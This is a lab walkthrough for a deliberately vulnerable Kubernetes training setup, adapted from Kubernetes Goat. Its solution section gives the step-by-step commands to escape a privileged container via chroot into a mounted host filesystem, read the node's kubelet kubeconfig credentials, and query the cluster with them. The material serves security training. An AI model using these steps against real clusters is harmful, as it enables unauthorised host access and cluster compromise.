 # Scenario: Escape to the Host System

## Prerequisites

- Playground One EKS EC2 Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: System Monitor

Ensure to have the EKS EC2 Cluster including the Scenarios up and running:

```sh
pgo --apply eks-ec2
pgo --apply scenarios-ec2
```

## Attribution

This scenario is based on [Kubernetes Goat](https://madhuakula.com/kubernetes-goat/docs/) but adapted to work an Playground One and EKS.

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the EKS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Overview

This scenario showcases the common misconfigurations and one of the error-prone security issues in Kubernetes, container environments, and the general security world. Giving privileges that are not required for things always makes security worse. This is especially true in the containers and Kubernetes world. You can also apply this scenario further and beyond the container to other systems and services based on the configuration and setup of the cluster environments and resources. In this scenario you will see a privileged container escape to gain access to the host system.

By the end of the scenario, you will understand and learn the following:

- Able to exploit the container and escape out of the docker container
- You will learn to test and exploit the misconfigured and privileged containers
- Learn about common misconfigurations and possible damage due to them for the containers, Kubernetes, and clusterized environments

## The story

Most of the monitoring, tracing, and debugging software requires extra privileges and capabilities to run. In this scenario, you will see a pod with extra capabilities and privileges including HostPath allowing you to gain access to the host system and provide Node level configuration to gain complete cluster compromise.

> ***Note:*** To get started with the scenario, navigate to `http://<loadbalancer_dns_system_monitor>`

## Goals

The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access.

> ***Tip:*** Gain access to the host system and obtain the node level kubeconfig file `/var/lib/kubelet/kubeconfig`, and query the Kubernetes nodes using the obtained configuration.

### Hints

<details>
<summary>Click here</summary>

✨ Are you still in the container?
<br><br>
See the mounted file systems, also look the capabilities available for the container using capsh 🙌<
<br><br>
✨ Escaped container?
<br><br>
You can recon the system, some interesting places to obtain the node level configuration are `/var/lib/kubelet/kubeconfig` and I hope you know how to query Kubernetes API for nodes? 🎉<br>

</details>

## Solution & Walkthrough

<details>
<summary>Click here</summary>

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as `/host-system` is mounted.

```sh
capsh --print
```

```sh
mount
```

Now you can explore the mounted file system by navigating to the `/host-system` path

```sh
ls /host-system/
```

You can gain access to the host system privileges using `chroot`.

```sh
chroot /host-system bash
```

As you can see, now you can access all the host system resources like docker containers, configurations, etc.

Trying to use the docker client fails.

```sh
docker ps
```

```ascii
bash: docker: command not found
```

This does not work, since we're on a Kubernetes optimized node OS with no docker provided.

```sh
uname -a
```

```ascii
Linux system-monitor-6dfbdbb7d-w6mdv 5.10.184-175.749.amzn2.x86_64 #1 SMP Wed Jul 12 18:40:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```sh
cat /var/lib/kubelet/kubeconfig
```

```ascii
apiVersion: v1
kind: Config
clusters:
- cluster:
    certificate-authority: /etc/kubernetes/pki/ca.crt
    server: https://BD215DBE2E4127977439D904B2AD3307.gr7.eu-central-1.eks.amazonaws.com
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: kubelet
  name: kubelet
current-context: kubelet
users:
- name: kubelet
  user:
    exec:
      apiVersion: client.authentication.k8s.io/v1beta1
      command: /usr/bin/aws-iam-authenticator
      args:
        - "token"
        - "-i"
        - "playground-one-eks"
        - --region
        - "eu-central-1"
```

Sadly, there is no `kubectl` as well.

```sh
kubectl
```

```ascii
bash: kubectl: command not found
```

Trying to use the package manager `yum` will not solve the problem. But navigating to https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux will help:

```sh
cd
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
```

Try to get the available nodes of our cluster:

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   56m   v1.25.11-eks-a5565ad
```

Can you do more?

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get pods -A
```

```ascii
NAMESPACE           NAME                                               READY   STATUS    RESTARTS   AGE
goat                system-monitor-6dfbdbb7d-w6mdv                     1/1     Running   0          53m
kube-system         aws-load-balancer-controller-577dcc6f77-sqtfr      1/1     Running   0          92m
kube-system         aws-node-8wl6v                                     1/1     Running   0          92m
kube-system         aws-node-ksdjv                                     1/1     Running   0          92m
kube-system         cluster-autoscaler-6696cf9bff-2s52q                1/1     Running   0          92m
kube-system         coredns-6bcddfff7-hrwwl                            1/1     Running   0          92m
kube-system         coredns-6bcddfff7-kp266                            1/1     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-2w7r8                6/6     Running   0          92m
kube-system         ebs-csi-controller-7dffd5b9fd-fdhfc                6/6     Running   0          92m
kube-system         ebs-csi-node-k77sx                                 3/3     Running   0          92m
kube-system         ebs-csi-node-vj6c7                                 3/3     Running   0          92m
kube-system         kube-proxy-62dls                                   1/1     Running   0          92m
kube-system         kube-proxy-mshz7                                   1/1     Running   0          92m
trendmicro-system   trendmicro-admission-controller-74d8d7f866-dv87r   1/1     Running   0          53m
trendmicro-system   trendmicro-oversight-controller-557df87c9-6c4dx    2/2     Running   0          69m
trendmicro-system   trendmicro-scan-manager-6ddb6f69b8-r85dk           1/1     Running   0          53m
trendmicro-system   trendmicro-scout-gkl4k                             2/2     Running   0          69m
trendmicro-system   trendmicro-scout-tz68w                             2/2     Running   0          69m
trendmicro-system   trendmicro-usage-controller-6944c5b55b-m8hgh       2/2     Running   0          53m
trendmicro-system   trendmicro-workload-operator-6cf5c98c6f-xq8bb      1/1     Running   0          69m
trivy-system        trivy-operator-57c774d7c4-hmnlk                    1/1     Running   0          53m
victims             java-goof-5878dd4dd-9lnst                          1/1     Running   0          53m
victims             web-app-854bdf944f-ddqcs                           1/1     Running   0          53m
```

```sh
./kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes 
```

```ascii
NAME                                            STATUS   ROLES    AGE   VERSION
ip-10-0-152-251.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
ip-10-0-169-117.eu-central-1.compute.internal   Ready    <none>   76m   v1.25.11-eks-a5565ad
```

🎉 Success 🎉

</details>
